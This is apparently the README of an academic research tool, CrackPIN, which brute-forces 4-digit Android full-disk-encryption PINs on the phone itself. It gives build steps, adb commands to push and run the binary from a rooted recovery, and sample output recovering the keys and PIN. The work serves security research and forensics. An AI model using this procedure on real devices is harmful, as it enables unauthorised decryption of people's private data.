 # CrackPIN
##ARM binary to break Android FDE 4-digit PINs


PINs are still the most frequent screen lock in use today. Since long PINs are too
inconvient for most people, people commonly use short PINs of only 4 digits. That is
concerning, because in Android the screen lock PIN necessarily equals the PIN that is
used for disk encryption.

In 2012, Cannon et al. presented details about Android's encryption system
and gave instructions on how to break it with bruteforce attacks against the PIN.
They published their findings in form of a Python script that breaks Android
encryption on an `x86` PC after the `userdata` and `metadata` (crypto footer) partition
have been retrieved.
[See script.](https://github.com/santoku/Santoku-Linux/blob/master/tools/android/android_bruteforce_stdcrypto/bruteforce_stdcrypto.py)

Basically, we re-implemented the Python script in C and cross-compiled it for
ARM so that we can perform bruteforce attacks directly on the phone without
the need to download the user partition first. To this end, we make use of the
`PolarSSL` library for Android, an open source library similar to `OpenSSL` but more light-weight and easier to integrate.

We statically link our PIN cracking program with the PolarSSL library as Android does
not support dynamic linking out-of-the-box.


- Setup your cross-compiling environment and configure the `Makefile`, i.e., 
   change `${NDK}` to an appropriate path.


- Get `PolarSSL` library:

 - Get the source from [http://polarssl.org](http://polarssl.org). Enable `PBKDF2_C` in `include/polarssl/config.h` (disabled by default).
 - Cross-compile it manually for Android/ARM; Alternatively, simply use the pre-compiled libpolarssl.a, that is shipped with this package.
 

- Run `make`. The crackpin binary should appear in the `bin` directory.


- Boot your scrambled telephone into a rooted recovery image with `ADB` support,
   e.g., into clockwordmod recovery. Then upload crackpin:

	> adb push crackpin /etc/

- Run crackpin (this may take a while):

	> adb shell /etc/crackpin

- On success you see something like:

		> adb shell /etc/crackpin
			 
		magic number: D0B5B1C4
		major version: 1
		minor version: 0
		footer size: 104
		flags: 0
		key size: 16
		failed decrypts: 0
		
		encdek: 8789f6d998899713a4fb755ff29922d7
		salt: 54f422d3ce6e1f2bc2828963d59e0f1e
		
		...trying 0000
		...trying 0100
		...trying 0200
		...trying 0300
		...trying 0400
		...trying 0500
		...trying 0600
		...trying 0700
		...trying 0800
		...trying 0900
		...trying 1000
		...trying 1100
		...trying 1200
		...trying 1300
		...trying 1400
		...trying 1500
		...trying 1600
		...trying 1700
		...trying 1800
		...trying 1900
		...trying 2000
		...trying 2100
		...trying 2200
		...trying 2300
		
		KEK: bc0eca8b4f30edd0bf0892637b94affb
		IV:  ecfcfbe7a3c0c87c5e9e4a56891a680c
		DEK: 490af890f7d9d3b29155e80a786a509b
		
			    PIN: 2323


##Contact:

Tilo Müller ([tilo.mueller@informatik.uni-erlangen.de](mailto:tilo.mueller@informatik.uni-erlangen.de))

[http://www1.cs.fau.de/frost](http://www1.cs.fau.de/frost)
